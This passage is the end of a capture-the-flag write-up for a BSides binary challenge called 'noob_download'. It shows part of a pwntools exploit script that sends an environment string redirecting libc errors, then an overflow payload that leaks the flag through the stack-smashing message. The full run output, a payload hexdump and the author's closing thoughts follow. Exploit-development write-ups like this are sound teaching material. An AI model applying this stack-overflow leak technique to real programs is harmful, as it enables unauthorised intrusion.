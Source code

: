```python
log.info("Sending string which redirects libc's errors to stdout - %s" % libc_fatal_stderr)
noob_download.sendline(libc_fatal_stderr)
log.info(noob_download.recvuntil(': '))
log.info("Sending generated payload")
noob_download.sendline(payload)
log.info(noob_download.recvuntil('***: '))
log.success("Flag found: %s" % noob_download.recvuntil(' '))
log.info(noob_download.recvall())
```

### Exploit output ###

```shell
vagrant@vagrant-ubuntu-trusty-64:~/host-share/bsides/completed/noob_download$ ./noob_download-exploit.py
[!] Couldn't find relocations against PLT to get symbols
[*] '/home/vagrant/host-share/bsides/completed/noob_download/noob_download'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
[+] Starting local process './noob_download': Done
[*] Payload padding - 264 bytes
[*] Address of flag - 0x400800
[*] Address of user input - 0x601040
[*] Final generated payload:
[*] 00000000  7e 3d 5b 2c  2c 5f 2c 2c  5d 3a 33 20  7e 3d 5b 2c  │~=[,│,_,,│]:3 │~=[,│
    00000010  2c 5f 2c 2c  5d 3a 33 20  7e 3d 5b 2c  2c 5f 2c 2c  │,_,,│]:3 │~=[,│,_,,│
    00000020  5d 3a 33 20  7e 3d 5b 2c  2c 5f 2c 2c  5d 3a 33 20  │]:3 │~=[,│,_,,│]:3 │
    00000030  7e 3d 5b 2c  2c 5f 2c 2c  5d 3a 33 20  7e 3d 5b 2c  │~=[,│,_,,│]:3 │~=[,│
    00000040  2c 5f 2c 2c  5d 3a 33 20  7e 3d 5b 2c  2c 5f 2c 2c  │,_,,│]:3 │~=[,│,_,,│
    00000050  5d 3a 33 20  7e 3d 5b 2c  2c 5f 2c 2c  5d 3a 33 20  │]:3 │~=[,│,_,,│]:3 │
    00000060  7e 3d 5b 2c  2c 5f 2c 2c  5d 3a 33 20  7e 3d 5b 2c  │~=[,│,_,,│]:3 │~=[,│
    00000070  2c 5f 2c 2c  5d 3a 33 20  7e 3d 5b 2c  2c 5f 2c 2c  │,_,,│]:3 │~=[,│,_,,│
    00000080  5d 3a 33 20  7e 3d 5b 2c  2c 5f 2c 2c  5d 3a 33 20  │]:3 │~=[,│,_,,│]:3 │
    00000090  7e 3d 5b 2c  2c 5f 2c 2c  5d 3a 33 20  7e 3d 5b 2c  │~=[,│,_,,│]:3 │~=[,│
    000000a0  2c 5f 2c 2c  5d 3a 33 20  7e 3d 5b 2c  2c 5f 2c 2c  │,_,,│]:3 │~=[,│,_,,│
    000000b0  5d 3a 33 20  7e 3d 5b 2c  2c 5f 2c 2c  5d 3a 33 20  │]:3 │~=[,│,_,,│]:3 │
    000000c0  7e 3d 5b 2c  2c 5f 2c 2c  5d 3a 33 20  7e 3d 5b 2c  │~=[,│,_,,│]:3 │~=[,│
    000000d0  2c 5f 2c 2c  5d 3a 33 20  7e 3d 5b 2c  2c 5f 2c 2c  │,_,,│]:3 │~=[,│,_,,│
    000000e0  5d 3a 33 20  7e 3d 5b 2c  2c 5f 2c 2c  5d 3a 33 20  │]:3 │~=[,│,_,,│]:3 │
    000000f0  7e 3d 5b 2c  2c 5f 2c 2c  5d 3a 33 20  7e 3d 5b 2c  │~=[,│,_,,│]:3 │~=[,│
    00000100  2c 5f 2c 2c  5d 3a 33 20  00 08 40 00  00 00 00 00  │,_,,│]:3 │··@·│····│
    00000110  40 10 60 00  00 00 00 00                            │@·`·│····││
    00000118
[*] Starting communication with server
[*] Gimme the data:
[*] Sending string which redirects libc's errors to stdout - LIBC_FATAL_STDERR_=0\x00
[*] Go on then, break me:
[*] Sending generated payload
[*] *** stack smashing detected ***:
[+] Flag found: BSIDES_CTF{FLAGISHEREONTHESERVER!}
[+] Receiving all data: Done (11B)
[*] Process './noob_download' stopped with exit code -6
[*] terminated
```
### Final thoughts ###
Since I'm completing this after the event, I don't know what the actual flag was but the exploit should work against the actual challenge server. This challenge really forced me to improve my exploit developement skills and I walked away from this challenge learning something new.
